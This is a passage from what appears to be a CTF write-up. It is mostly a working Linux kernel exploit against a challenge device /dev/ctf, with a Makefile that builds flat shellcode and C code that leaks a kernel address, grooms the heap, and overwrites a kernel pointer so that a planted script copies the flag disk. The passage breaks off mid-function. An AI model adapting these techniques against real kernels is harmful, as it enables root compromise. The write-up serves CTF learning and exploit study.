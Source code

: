 We plan to execute our entire kernel exploit in pure shellcode format. Here we create a Makefile which can create a 0x1000 bytes shellcode from a C source. The shellcode will be created at the first 0x1000 bytes of `sc.bin`. 


```Makefile=
all: sc.bin

sc.bin: sc.o
	ld --oformat=binary sc.o -o sc.bin -Ttext 0 -Tbss 0xc00  -Tdata 0x800
sc.o:	sc.c
	gcc -fomit-frame-pointer -fno-stack-protector -nostdlib -fPIE -masm=intel -c sc.c

clean:
	rm sc.bin sc.o
```

The exploit in C :
```c=
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sys/syscall.h>

int fd[0x100];
char ctfpath[] = "/dev/ctf";
char ptmx[] = "/dev/ptmx";
char msg[] = "#!/bin/bash\ncat /dev/vdb>/tmp/root";
char mess[] = "\xff\xff\xff\xff";
char ybin[] = "/tmp/y";
char flagpath[] = "/tmp/root";
int memfd_create(char* ptr,unsigned int flags);
int my_itoa(int val,char* buf);

void _start(){

	for(int i=0;i<0x100;i++)
		fd[i] = open(ptmx,2);
	for(int i=0;i<0x100;i++)
		close(fd[i]);
	
	int ctf = open(ctfpath,2);
	ioctl(ctf,1337,0x2c0);
	char buf[0x100];
	read(ctf,buf,0x100);
	size_t* p = (size_t*)buf;
	size_t kaddr = p[3] - 0x20745e0;

	ioctl(ctf,1338,0x0);
	ioctl(ctf,1337,0x10);
	ioctl(ctf,1338,0x0);
	for(int i=0;i<0x100;i++){
		fd[i] = open(ctfpath,2);
	}
	for(int i=0;i<0x100;i++){
		ioctl(fd[i],1337,0x100*(i+1));
	}
	read(ctf,buf,0x10);
	int idx = p[1]/0x100-1;
	size_t payload[] = {kaddr+0x244DD40,0x100};
	write(ctf,payload,0x10);
	char path[] = "/tmp/x";
	write(fd[idx],path,sizeof(path));
```